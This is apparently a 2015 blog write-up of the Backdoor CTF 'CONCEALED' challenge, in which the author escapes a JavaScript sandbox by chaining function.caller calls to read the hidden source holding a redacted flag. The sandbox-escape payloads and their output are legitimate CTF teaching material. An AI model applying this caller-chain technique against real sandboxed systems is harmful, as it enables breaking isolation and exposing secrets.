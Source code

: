 ```yaml
---
layout: post
title: "Backdoor CTF 2015 - CONCEALED Writeup"
date: 2015-04-03 02:33:31 +0430
comments: false
categories: ctf backdoor exploit javascript sandbox
---
```


**Backdoor 2015 CONCEALED Writeup**  
**Point = 150**  
**Category = Exploit**  

> All paths have been concealed. Get the hidden flag: nc hack.bckdr.in 8005. Submit sha-256 of the flag

```
$ nc hack.bckdr.in 8005
######################################
####           CONCEAL            ####
######################################

Welcome to CONCEAL
You have access to object named sandboxed and its functions 
Rest everything is sandboxed, don't be a jerk and break something
Wrap your code in a function and return what you want as output
Flag is hidden somewhere in the code. 
Get the flag :D!

home@jail:$ 

```

First of all as banner says we should use all our payload as a function like :
<!--more-->
```
home@jail:$ function exploit() { return "GeeksSpeak"; }
GeeksSpeak
home@jail:$ 
```

After some diging into the the challenge, trying to break the jail and so on, reading banner carefully indicates that the flag is in the code so i should read codes but how?

In javascript we can use arguments.caller to see which function calls our current function so i made up an example and tested it:

```
home@jail:$ function exploit() { return exploit.caller.toString(); }
function () {return (function exploit() { return exploit.caller.toString(); })()}
home@jail:$ function exploit() { return (exploit.caller).caller.toString(); }
function () {
        if (!(this instanceof Script)) {
          throw new TypeError('invalid call to ' + f);
        }
        return ns[f].apply(ns, arguments);
      }
home@jail:$ 

```

this proved my idea, so i used caller repeatedly and finally got the flag as bellow:

```
home@jail:$ function exploit() { return ((((((((exploit.caller).caller).caller).caller).caller).caller).caller).caller).caller.toString(); }
function (err, line) {

    // flag : [redacted]

    if (err && wait === false) {
      return callback(err);
    }

    var against = {},
        numericInput,
        isValid;

    if (line !== '') {
      if (schema.properties[propName]) 
      [..stripped..]
```

and sha256 of the `[redacted]` gives us another 150pts.

HAMIDx9
